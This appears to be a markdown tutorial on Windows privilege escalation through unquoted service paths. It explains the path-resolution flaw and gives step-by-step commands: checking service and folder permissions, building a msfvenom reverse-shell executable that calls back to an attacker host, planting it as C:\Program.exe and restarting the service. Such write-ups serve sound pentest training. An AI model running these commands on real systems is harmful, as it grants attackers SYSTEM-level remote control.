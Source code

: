 
## **What is an Unquoted Service Path?**

When a Windows service runs with **high privileges** (like SYSTEM) but its executable path **contains spaces without quotes**, it becomes vulnerable. Windows searches for the executable in a weird way that we can exploit.
<img width="887" height="364" alt="image" src="https://github.com/user-attachments/assets/6fc26487-0383-4872-8c98-fc43ac137f8e" />
### **Example of the Problem:**

Suppose the service binary path is:
```
C:\Program Files\Unquoted Path Service\Common Files\servicename.exe
```
**Because there are no quotes**, Windows will try to find the executable by checking these paths in order:
1. `C:\Program.exe`
2. `C:\Program Files.exe`
3. `C:\Program Files\Unquoted.exe`
4. `C:\Program Files\Unquoted Path.exe`
5. `C:\Program Files\Unquoted Path Service.exe`
6. `C:\Program Files\Unquoted Path Service\Common.exe`
7. `C:\Program Files\Unquoted Path Service\Common Files.exe`
8. `C:\Program Files\Unquoted Path Service\Common Files\servicename.exe`
If you have write permission in any of those folders, you can place a malicious executable (with the exact name the system looks for) and trick the service into running your code.
### How to find unquoted services?
- Use **PowerUp.ps1** (a PowerShell script for privilege escalation enumeration)
- Use **WinPEAS.exe** (an automated Windows privilege escalation tool)
These tools will identify unquoted service paths on the system.<img width="894" height="50" alt="image" src="https://github.com/user-attachments/assets/14eb0ab6-7402-4653-bcaf-766857af123b" />
*(Example: Found service **`unquotedsvc`** with path **`C:\Program Files\Bad Service\app.exe`**)*

# Steps 
### **1. Check Service running as Privileged User**
Query the "**unquotedsvc**" 
```cmd
sc qc unquotedsvc
```
we can see here the that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
![[Pasted image 20250828070632.png]]
### **2. Check Write Permissions**
Verify you can write to one of the folders in the path Try it for all the combination:
```
icacls "C:\Program Files"
# OR 
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
If you see **`(M)`** or **`(F)`** next to your username, you can write files there!
**`(F)` - Full Control**
**`(M)` - Modify**

### **3. Create Malicious Payload**
On your Kali machine:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```
Upload **`evil.exe`** to the victim machine.
### **4. Place Payload in Vulnerable Location**
Since Windows searches for **`Program.exe`** first, we can:
```
copy evil.exe "C:\Program.exe"
```
*(If **`C:\Program Files`** is writable, use **`"C:\Program Files\Vulnerable.exe"`** instead.)*
### **5. Restart the Service**
```
net stop unquotedsvc
net start unquotedsvc
```
💥 **If successful, you get a reverse shell with SYSTEM privileges!**